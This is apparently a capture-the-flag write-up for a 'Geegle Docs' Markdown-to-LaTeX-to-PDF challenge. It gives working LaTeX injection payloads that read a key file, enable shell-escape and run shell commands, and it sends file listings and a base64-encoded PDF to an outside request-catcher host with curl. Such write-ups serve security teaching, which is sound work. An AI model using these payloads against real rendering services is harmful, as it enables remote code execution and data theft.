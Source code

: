 # docs (Geegle Docs)

Markdown to LaTeX to PDF

Idea:
LaTeX injection

## Solution
1. Arbitrary file read
2. Read key
3. Sign shell-escape parameter
4. RCE
5. Read all files created by docs
6. Leak internal info

## Payload

First, get key:

```
\input{/key}
```

Then, sign dbgoption: `--shell-escape.TcRT24WdJHkdXSzP_dvugHoDF0E`

Then, RCE to list /tmp (with dbgoption)
```
\input{|"ls /tmp > /tmp/adamyi"}
\input{|"curl -X POST https://ennf359rgtoea.x.pipedream.net --data-urlencode @/tmp/adamyi"}
```

Find `/tmp/HOWDOIDELETETHIS.pdf`, get content (with dbgoption)
```
\input{|"base64 /tmp/HOWDOIDELETETHIS.pdf > /tmp/adamyi"}
\input{|"curl -X POST https://ennf359rgtoea.x.pipedream.net --data-urlencode @/tmp/adamyi"}
```

## author
adamyi

